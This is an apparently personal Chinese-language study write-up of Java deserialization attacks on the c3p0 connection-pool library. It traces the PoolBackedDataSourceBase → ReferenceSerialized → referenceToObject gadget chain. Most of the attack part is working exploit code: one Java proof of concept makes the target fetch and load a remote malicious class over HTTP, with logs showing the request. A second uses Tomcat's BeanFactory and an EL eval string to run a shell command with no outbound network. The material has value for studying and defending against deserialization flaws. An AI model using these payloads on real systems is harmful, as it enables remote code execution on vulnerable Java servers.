

# [Java反序列化]C3P0反序列化

## 环境

```xml
        <dependency>
            <groupId>com.mchange</groupId>
            <artifactId>c3p0</artifactId>
            <version>0.9.5.2</version>
        </dependency>
```

## 什么是c3p0

C3P0是一个开源的JDBC连接池，它实现了数据源和JNDI绑定，支持JDBC3规范和JDBC2的标准扩展。c3p0是异步操作的，缓慢的JDBC操作通过帮助进程完成。扩展这些操作可以有效的提升性能。目前使用它的开源项目有hibernate，spring等。是一个成熟的、高并发的JDBC连接池库，用于缓存和重用PreparedStatements支持。c3p0具有自动回收空闲连接功能。


## URLClassLoader

Gadget：

```
ReferenceableUtils->referenceToObject
ReferenceIndirector$ReferenceSerialized->getObject
PoolBackedDataSourceBase->readObject
```

首先看一下`PoolBackedDataSourceBase`的`writeObject`：

```java
	private void writeObject( ObjectOutputStream oos ) throws IOException
	{
		oos.writeShort( VERSION );
		try
		{
			//test serialize
			SerializableUtils.toByteArray(connectionPoolDataSource);
			oos.writeObject( connectionPoolDataSource );
		}
		catch (NotSerializableException nse)
		{
			com.mchange.v2.log.MLog.getLogger( this.getClass() ).log(com.mchange.v2.log.MLevel.FINE, "Direct serialization provoked a NotSerializableException! Trying indirect.", nse);
			try
			{
				Indirector indirector = new com.mchange.v2.naming.ReferenceIndirector();
				oos.writeObject( indirector.indirectForm( connectionPoolDataSource ) );
			}
			catch (IOException indirectionIOException)
			{ throw indirectionIOException; }
			catch (Exception indirectionOtherException)
			{ throw new IOException("Problem indirectly serializing connectionPoolDataSource: " + indirectionOtherException.toString() ); }
		}
		oos.writeObject( dataSourceName );
		try
		{
			//test serialize
			SerializableUtils.toByteArray(extensions);
			oos.writeObject( extensions );
		}
		catch (NotSerializableException nse)
		{
			com.mchange.v2.log.MLog.getLogger( this.getClass() ).log(com.mchange.v2.log.MLevel.FINE, "Direct serialization provoked a NotSerializableException! Trying indirect.", nse);
			try
			{
				Indirector indirector = new com.mchange.v2.naming.ReferenceIndirector();
				oos.writeObject( indirector.indirectForm( extensions ) );
			}
			catch (IOException indirectionIOException)
			{ throw indirectionIOException; }
			catch (Exception indirectionOtherException)
			{ throw new IOException("Problem indirectly serializing extensions: " + indirectionOtherException.toString() ); }
		}
		oos.writeObject( factoryClassLocation );
		oos.writeObject( identityToken );
		oos.writeInt(numHelperThreads);
	}
```

先把VERSION写入反序列化的数据中，然后再尝试反序列化`connectionPoolDataSource`属性。问题是，这个属性connectionPoolDataSource是`ConnectionPoolDataSource`类的，并不能反序列化，会抛出异常进入catch进行这样的处理：

```java
				Indirector indirector = new com.mchange.v2.naming.ReferenceIndirector();
				oos.writeObject( indirector.indirectForm( connectionPoolDataSource ) );
```

先产生1个`Reference`对象，然后再将他作为`ReferenceSerialized`类的属性。

```java
    public IndirectlySerialized indirectForm( Object orig ) throws Exception
    { 
	Reference ref = ((Referenceable) orig).getReference();
	return new ReferenceSerialized( ref, name, contextName, environmentProperties );
    }
```

这个对象也将被写入反序列化的数据中，可以发现，这个对象我们唯一可控的就是ref属性，其他的`name, contextName, environmentProperties `都不可控。

再看看readObject：

```java
	private void readObject( ObjectInputStream ois ) throws IOException, ClassNotFoundException
	{
		short version = ois.readShort();
		switch (version)
		{
			case VERSION:
				// we create an artificial scope so that we can use the name o for all indirectly serialized objects.
				{
					Object o = ois.readObject();
					if (o instanceof IndirectlySerialized) o = ((IndirectlySerialized) o).getObject();
					this.connectionPoolDataSource = (ConnectionPoolDataSource) o;
				}
```

在`if (o instanceof IndirectlySerialized) o = ((IndirectlySerialized) o).getObject();`调用了`getObject()`：

```java
	public Object getObject() throws ClassNotFoundException, IOException
	{
	    try
		{
		    Context initialContext;
		    if ( env == null )
			initialContext = new InitialContext();
		    else
			initialContext = new InitialContext( env );

		    Context nameContext = null;
		    if ( contextName != null )
			nameContext = (Context) initialContext.lookup( contextName );

		    return ReferenceableUtils.referenceToObject( reference, name, nameContext, env ); 
		}
```

那个lookup没法利用，因此contextName我们不可控。跟进`referenceToObject`：

```java
    public static Object referenceToObject( Reference ref, Name name, Context nameCtx, Hashtable env)
	throws NamingException
    {
	try
	    {
		String fClassName = ref.getFactoryClassName();
		String fClassLocation = ref.getFactoryClassLocation();

		ClassLoader defaultClassLoader = Thread.currentThread().getContextClassLoader();
		if ( defaultClassLoader == null ) defaultClassLoader = ReferenceableUtils.class.getClassLoader();
		
		ClassLoader cl;
		if ( fClassLocation == null )
		    cl = defaultClassLoader;
		else
		    {
			URL u = new URL( fClassLocation );
			cl = new URLClassLoader( new URL[] { u }, defaultClassLoader );
		    }
		
		Class fClass = Class.forName( fClassName, true, cl );
		ObjectFactory of = (ObjectFactory) fClass.newInstance();
		return of.getObjectInstance( ref, name, nameCtx, env );
	    }
```

发现其实就是利用`ref`利用`URLClassLoader`来加载恶意类了，ref是我们可控的。

构造一波：

```java
package com.summer.c3p0;

import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import com.summer.util.SerializeUtil;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.PrintWriter;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

public class C3P0 {
    public static void main(String[] args) throws Exception{
        PoolBackedDataSourceBase poolBackedDataSourceBase = new PoolBackedDataSourceBase(false);
        PoolSource poolSource = new PoolSource("Evil","http://127.0.0.1:39876/");
        Field connectionPoolDataSourceField = PoolBackedDataSourceBase.class.getDeclaredField("connectionPoolDataSource");
        connectionPoolDataSourceField.setAccessible(true);
        connectionPoolDataSourceField.set(poolBackedDataSourceBase,poolSource);
        byte[] bytes = SerializeUtil.serialize(poolBackedDataSourceBase);
        SerializeUtil.unserialize(bytes);
    }

    private static class PoolSource implements ConnectionPoolDataSource, Referenceable {
        private String classFactory;
        private String classFactoryLocation;
        public PoolSource(String classFactory, String classFactoryLocation){
            this.classFactory = classFactory;
            this.classFactoryLocation = classFactoryLocation;
        }
        @Override
        public Reference getReference() throws NamingException {
            return new Reference("feng",this.classFactory,this.classFactoryLocation);
        }

        @Override
        public PooledConnection getPooledConnection() throws SQLException {
            return null;
        }

        @Override
        public PooledConnection getPooledConnection(String user, String password) throws SQLException {
            return null;
        }

        @Override
        public PrintWriter getLogWriter() throws SQLException {
            return null;
        }

        @Override
        public void setLogWriter(PrintWriter out) throws SQLException {

        }

        @Override
        public void setLoginTimeout(int seconds) throws SQLException {

        }

        @Override
        public int getLoginTimeout() throws SQLException {
            return 0;
        }

        @Override
        public Logger getParentLogger() throws SQLFeatureNotSupportedException {
            return null;
        }
    }
}

```

```shell
C:\Users\15997\Desktop>python -m http.server 39876
Serving HTTP on 0.0.0.0 port 39876 (http://0.0.0.0:39876/) ...
127.0.0.1 - - [01/Mar/2022 15:41:31] "GET /Evil.class HTTP/1.1" 200 -
127.0.0.1 - - [01/Mar/2022 15:41:41] code 404, message File not found
127.0.0.1 - - [01/Mar/2022 15:41:41] "GET /Evild.class HTTP/1.1" 404 -
```



正因为要用到`URLClassLoader`，所以不出网的条件下无法这样利用。

## BeanFactory的不出网利用

如果环境不出网的话，就无法加载远程class。但是往下看：

```java
		ClassLoader cl;
		if ( fClassLocation == null )
		    cl = defaultClassLoader;
		else
		    {
			URL u = new URL( fClassLocation );
			cl = new URLClassLoader( new URL[] { u }, defaultClassLoader );
		    }
		
		Class fClass = Class.forName( fClassName, true, cl );
		ObjectFactory of = (ObjectFactory) fClass.newInstance();
		return of.getObjectInstance( ref, name, nameCtx, env );
	    }
```

如果`fClassLocation`为null的话就是默认加载而不是远程加载，加载到对象之后会调用`getObjectInstance`这个方法。。这个方法我2个小时前学JNDI在高版本JDK的利用中刚学到。。。不多说了，直接构造了：

```java
package com.summer.c3p0;

import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import com.summer.util.SerializeUtil;
import org.apache.naming.ResourceRef;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.naming.StringRefAddr;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.PrintWriter;
import java.lang.reflect.Field;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

public class C3P0 {
    public static void main(String[] args) throws Exception{
        PoolBackedDataSourceBase poolBackedDataSourceBase = new PoolBackedDataSourceBase(false);
        //PoolSource poolSource = new PoolSource("Evil","http://127.0.0.1:39876/");
        PoolSource poolSource = new PoolSource();

        Field connectionPoolDataSourceField = PoolBackedDataSourceBase.class.getDeclaredField("connectionPoolDataSource");
        connectionPoolDataSourceField.setAccessible(true);
        connectionPoolDataSourceField.set(poolBackedDataSourceBase,poolSource);
        byte[] bytes = SerializeUtil.serialize(poolBackedDataSourceBase);
        SerializeUtil.unserialize(bytes);

    }

    private static class PoolSource implements ConnectionPoolDataSource, Referenceable {
        private String classFactory;
        private String classFactoryLocation;
        public PoolSource(){
            this.classFactory = "BeanFactory";
            this.classFactoryLocation = null;
        }
        public PoolSource(String classFactory, String classFactoryLocation){
            this.classFactory = classFactory;
            this.classFactoryLocation = classFactoryLocation;
        }
        @Override
        public Reference getReference() throws NamingException {
            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
            ref.add(new StringRefAddr("forceString", "feng=eval"));
            ref.add(new StringRefAddr("feng", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','calc']).start()\")"));
            return ref;
            //return new Reference("feng",this.classFactory,this.classFactoryLocation);
        }

        @Override
        public PooledConnection getPooledConnection() throws SQLException {
            return null;
        }

        @Override
        public PooledConnection getPooledConnection(String user, String password) throws SQLException {
            return null;
        }

        @Override
        public PrintWriter getLogWriter() throws SQLException {
            return null;
        }

        @Override
        public void setLogWriter(PrintWriter out) throws SQLException {

        }

        @Override
        public void setLoginTimeout(int seconds) throws SQLException {

        }

        @Override
        public int getLoginTimeout() throws SQLException {
            return 0;
        }

        @Override
        public Logger getParentLogger() throws SQLFeatureNotSupportedException {
            return null;
        }
    }
}

```

又一个有意思的方法需要记住了，`getObjectInstance`。